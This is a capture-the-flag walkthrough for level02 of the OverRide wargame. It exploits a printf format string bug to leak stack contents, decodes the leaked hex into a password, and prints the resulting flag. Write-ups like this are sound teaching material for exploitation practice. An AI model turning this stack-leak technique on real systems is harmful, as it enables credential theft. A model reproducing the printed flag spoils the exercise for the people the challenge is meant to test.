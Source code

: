 # level02 walkthrough

## the binary
``` shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: admin
--[ Password: admin
*****************************************
admin does not have access!
```

## methodology
- format string attack

The `main` function uses `printf` to output raw array data, which makes it vulnerable to a format string attack. We can exploit this to display the variables stored on the stack.
``` shell
level02@OverRide:~$ python /tmp/format_string.py
Sequence 0x7fffffffe3d0 found on stack position 1
Sequence 0x2a2a2a2a2a2a2a2a found on stack position 4
Sequence 0x2a2a2a2a2a2a2a2a found on stack position 5
Sequence 0x7fffffffe5c8 found on stack position 6
Sequence 0x1f7ff9a08 found on stack position 7
Sequence 0x100000000 found on stack position 20
Sequence 0x756e505234376848 found on stack position 22
Sequence 0x45414a3561733951 found on stack position 23
Sequence 0x377a7143574e6758 found on stack position 24
Sequence 0x354a35686e475873 found on stack position 25
Sequence 0x48336750664b394d found on stack position 26
Sequence 0x7024383225 found on stack position 28
Sequence 0x2900000000 found on stack position 40
Sequence 0x602010 found on stack position 41
```

Positions 22 to 26 contain hex-encoded sequences that reveal the password after hex-decoding, reversing the endianness, and concatenating them.

## flag
``` shell
level02@OverRide:~$ python /tmp/decode.py
flag: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
